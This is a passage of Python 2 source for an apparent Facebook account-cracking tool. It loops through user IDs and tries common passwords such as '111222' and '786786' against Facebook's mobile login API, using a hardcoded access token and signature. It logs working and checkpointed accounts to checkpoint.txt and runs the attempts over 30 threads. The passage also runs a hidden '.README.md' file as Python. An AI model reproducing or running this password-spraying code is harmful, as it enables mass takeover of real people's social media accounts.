 										oks.append(user+pass5)
									else:
										if "www.facebook.com" in q["error_msg"]:
											print "[CP] " + user + " | " + pass5
											cps = open("checkpoint.txt", "a")
											cps.write(user+"|"+pass5+"\n")
											cps.close()
											cpb.append(user+pass5)
										else:
											pass6 = "111222"
											data = br.open("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass6 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
											q = json.load(data)
											if "access_token" in q:
												print "\x1b[1;92m[OK]\x1b[0m " + user + " | " + pass6
												oks.append(user+pass6)
											else:
												if "www.facebook.com" in q["error_msg"]:
													print "[CP] " + user + " | " + pass6
													cps = open("checkpoint.txt", "a")
													cps.write(user+"|"+pass6+"\n")
													cps.close()
													cpb.append(user+pass6)
												else:
													pass7 = "786786"
													data = br.open("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass7 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
													q = json.load(data)
													if "access_token" in q:
														print "\x1b[1;92m[OK]\x1b[0m " + user + " | " + pass7
														oks.append(user+pass7)
													else:
														if "www.facebook.com" in q["error_msg"]:
															print "[CP] " + user + " | " + pass7
															cps = open("checkpoint.txt", "a")
															cps.write(user+"|"+pass7+"\n")
															cps.close()
															cpb.append(user+pass7)
														
																	
		except:
			pass
			
	p = ThreadPool(30)
	p.map(main, id)
	print (40*"-")
	print ("[✓] Process Has Been Completed ....")
	print ("[✓] Total OK/CP : "+str(len(oks))+"/"+str(len(cpb)))
	print("[✓] CP File Has Been Saved : checkpoint.txt")
	print (40*"-")
	raw_input("\n[Back]")
	if xxx == "0":
		crack_menu()
	else:
		os.system("python2 .README.md")
